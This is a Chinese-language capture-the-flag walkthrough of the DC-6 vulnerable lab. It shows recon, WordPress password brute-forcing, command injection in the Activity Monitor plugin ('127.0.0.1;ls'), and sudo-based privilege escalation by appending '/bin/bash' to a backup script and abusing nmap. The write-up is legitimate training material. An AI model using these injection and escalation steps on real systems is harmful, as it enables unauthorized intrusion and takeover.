





靶机描述:
```
DESCRIPTION
DC-6 is another purposely built vulnerable lab with the intent of gaining experience in the world of penetration testing.

This isn't an overly difficult challenge so should be great for beginners.

The ultimate goal of this challenge is to get root and to read the one and only flag.

Linux skills and familiarity with the Linux command line are a must, as is some experience with basic penetration testing tools.

For beginners, Google can be of great assistance, but you can always tweet me at @DCAU7 for assistance to get you going again. But take note: I won't give you the answer, instead, I'll give you an idea about how to move forward.
```

**环境配置**
一样的 ova导入 启动后改NAT


**信息收集**
靶机ip:192.168.136.157

```
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.4p1 Debian 10+deb9u6 (protocol 2.0)
| ssh-hostkey: 
|   2048 3e:52:ce:ce:01:b6:94:eb:7b:03:7d:be:08:7f:5f:fd (RSA)
|   256 3c:83:65:71:dd:73:d7:23:f8:83:0d:e3:46:bc:b5:6f (ECDSA)
|_  256 41:89:9e:85:ae:30:5b:e0:8f:a4:68:71:06:b4:15:ee (ED25519)
80/tcp open  http    Apache httpd 2.4.25 ((Debian))
|_http-server-header: Apache/2.4.25 (Debian)
|_http-title: Did not follow redirect to http://wordy/
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

```

还是要配置一下DNS解析的HOST
然后就能访问网页了


又是WordPress
扫一扫用户
`wpscan --url http://wordy --enumerate u`

得到 admin sarah graham mark jens
cewl生成个字典 爆一下看行不行
`wpscan --url http://wordy -U user.txt -P passwd.txt`
没爆出来...

搜了搜 WP5.1.1版本 有CSRF->RCE的漏洞 但也要在评论功能 至少要先登陆
nm 结果官网有个CLUE
```
CLUE
OK, this isn't really a clue as such, but more of some "we don't want to spend five years waiting for a certain process to finish" kind of advice for those who just want to get on with the job.

cat /usr/share/wordlists/rockyou.txt | grep k01 > passwords.txt That should save you a few years. ;-)
```

好好好 用rockyou字典呗
按照提示来爆破即可


emmm

mark helpdesk01

这个账密ssh登不了 还得进一步信息收集

还能怎么打? plugin的洞都利用不了
emmm 貌似看漏了个点
`Activity Monitor`下有个`Premium Pack`

对比DC2发现确实这里多了一个"plugin"
搜一搜发现就是最出名的`Plainview Activity Monitor`的RCE漏洞
其实不用搜也知道


最经典的ip RCE了
`127.0.0.1;ls` 然后点lookup即可RCE

尝试反弹shell
发现框里面的字数有限制 前端雕虫小技 bp抓包重发即可


python起一个交互shell `python -c 'import pty;pty.spawn("/bin/bash")'`

进一步信息收集
```
www-data@dc-6:/var/www/html/wp-admin$ cat /home/mark/stuff/things*
cat /home/mark/stuff/things*
Things to do:

- Restore full functionality for the hyperdrive (need to speak to Jens)
- Buy present for Sarah's farewell party
- Add new user: graham - GSo7isUM1D4 - done
- Apply for the OSCP course
- Buy new laptop for Sarah's replacement

```


graham  GSo7isUM1D4

su切换graham
```
graham@dc-6:/var/www/html/wp-admin$ sudo -l
sudo -l
Matching Defaults entries for graham on dc-6:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User graham may run the following commands on dc-6:
    (jens) NOPASSWD: /home/jens/backups.sh
```

要用/home/jens/backups.sh提权

```
graham@dc-6:/var/www/html/wp-admin$ cat /home/jens/backups.sh
cat /home/jens/backups.sh
#!/bin/bash
tar -czf backups.tar.gz /var/www/html

```

先用ssh登录graham
利用上面backup.sh可以得到jens的权限
直接 将命令写入backup.sh 然后sudo -u jens运行
`echo "/bin/bash" >> /home/jens/backups.sh`
`sudo -u jens /home/jens/backups.sh`

就能切换到jens用户
```
jens@dc-6:/$ sudo -l
Matching Defaults entries for jens on dc-6:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User jens may run the following commands on dc-6:
    (root) NOPASSWD: /usr/bin/nmap
```

然后`nmap`提权
直接交互shell得不到 那就写入脚本nmap执行



```
# cat: /root: Is a directory
# 

Yb        dP 888888 88     88         8888b.   dP"Yb  88b 88 888888 d8b 
 Yb  db  dP  88__   88     88          8I  Yb dP   Yb 88Yb88 88__   Y8P 
  YbdPYbdP   88""   88  .o 88  .o      8I  dY Yb   dP 88 Y88 88""   `"' 
   YP  YP    888888 88ood8 88ood8     8888Y"   YbodP  88  Y8 888888 (8) 


Congratulations!!!

Hope you enjoyed DC-6.  Just wanted to send a big thanks out there to all those
who have provided feedback, and who have taken time to complete these little
challenges.

If you enjoyed this CTF, send me a tweet via @DCAU7.

```


---
---

嘛 又积累了一点姿势
继续练习 冲!